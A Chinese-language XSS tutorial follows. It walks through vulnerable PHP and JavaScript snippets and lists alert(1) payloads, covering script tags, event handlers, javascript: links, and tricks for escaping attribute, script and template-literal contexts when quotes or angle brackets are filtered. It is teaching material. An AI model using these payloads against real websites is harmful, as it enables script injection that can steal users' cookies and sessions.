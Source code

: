 ## 了解
>XSS（Cross-site scripting） 就代表著攻击者可以在其他人的网站上面执行JavaScript 程序。
```php
<?php
 echo "Hello, " . $_GET['name'];
?>
```
如果访问的是 `index.php?name=<script>alert(1)</script>` 呢？输出的内容就会变成：Hello，`<script>alert(1)</script>`
`<script>`标签里的内容将被视为JavaScript代码来执行，屏幕上会弹出一个提示窗口，这意味着可以在其他人的网站中执行JavaScript代码。

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
通过`index.html?name=<script>alert(1)</script>`的方式可以插入任何我们想要的内容，但这次是通过前端使用`innerHTML`的方式将我们的 payload 添加到页面上。
两者之间的区别在于前面的例子实际上不会触发`alert`，原因是在使用`innerHTML`时，插入的`<script>`标签没有效果，因此攻击者必须调整XSS payload才能执行代码。


- localStorage :
- Cookie：`cookieStore` API / document.cookie /fetch()与其他api交互

## 执行js的方式
1. `<script>alert(1)</script>`
2. `Inline event handle` 在HTML元素中内联（内嵌）的事件处理程序
	1. `<img src="not_exist" onerror="alert(1)">`
	2. `<button onclick="alert(1)">拜託點我</button>`
	3. `<svg onload="alert(1)">`
	4. `<svg/onload=alert(1)>`  
		1. html属性中`"`非必要，没有空格就可以拿掉
		2. 标签跟属性间的空格可以用`/`替代
3. `<a href=javascript:void(0)>Link</a>`

### 常用的event handler
1. onerror
2. onload
3. onfocus
4. onblur
5. onanimationend
6. onclick
7. onmouseenter

## 常见情景

### 注入html
> 直接給你一塊空白的 HTML 讓你去操作，因此可以直接寫入任何想要的元素
```php
<?php
 echo "Hello, <h1>" . $_GET['name'] . '</h1>';
?>
```

```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
`<script>alert(1)</script>`
#### 防御
>把使用者輸入中的 `<` 跟 `>` 全部取代掉，它就沒有辦法插入新的 HTML 標籤，就沒辦法做到任何事情。


### 注入属性
```html
<div id="content"></div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const clazz = qs.get('clazz')
  document.querySelector('#content').innerHTML = `
    <div class="${clazz}">
      Demo
    </div>
  `
</script>
```
輸入的內容是做為某個屬性的值，被包在屬性裡面的：
我们可以使用`"<script>alert(1)</script>`来闭合标签，再插入js语句
```html
<div class=""><script>alert(1)</script>  
Demo  
</div>
```

#### `<>`被过滤
`" tabindex=1 onfocus="alert(1)" x="`
闭合`”`后使用event handler
```html
<div class="" tabindex=1 onfocus="alert(1)" x="">
  Demo
</div>
```

#### `' " `被过滤
>通过空格和`/`新增属性
```html
document.querySelector('#content').innerHTML = `
  <div class=${clazz}>
    Demo
  </div>
```
payload:
`/onclick=alert(1)`
```html
<div class=12 / onclick=alert(1)>
  Demo
</div>
```
### 注入javascript
```html
<script>
  const name = "<?php echo $_GET['name'] ?>";
  alert(name);
</script>
```

#### `"`过滤
`</script>` 闭合标签，再注入其他标签

#### ``<>"'`过滤
如果在輸入裡面加一個空行，就會因為換行導致整段程式碼無法執行，出現 `SyntaxError`

```html
<script>
  const name = `
    Hello,
    <?php echo $_GET['name'] ?>
  `;
  alert(name);
</script>
```
此时可以用`${alert(1)}` 的方式來注入 JavaScript 程式

## Javascript伪协议

### where
1. `<a href=javascript:alert(1)>Link</a>`
2. <iframe src=javascript:alert(1)></iframe>``
## 参考链接
1. https://web.archive.org/web/20100723152801/http://blogs.msdn.com/b/dross/archive/2009/12/15/happy-10th-birthday-cross-site-scripting.aspx
2. https://owasp.org/www-pdf-archive/OWASP-AppSecEU08-Dabirsiaghi.pdf
3. https://github.com/mandatoryprogrammer/xsshunter-express
4. https://hackerone.com/reports/948929
5. [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
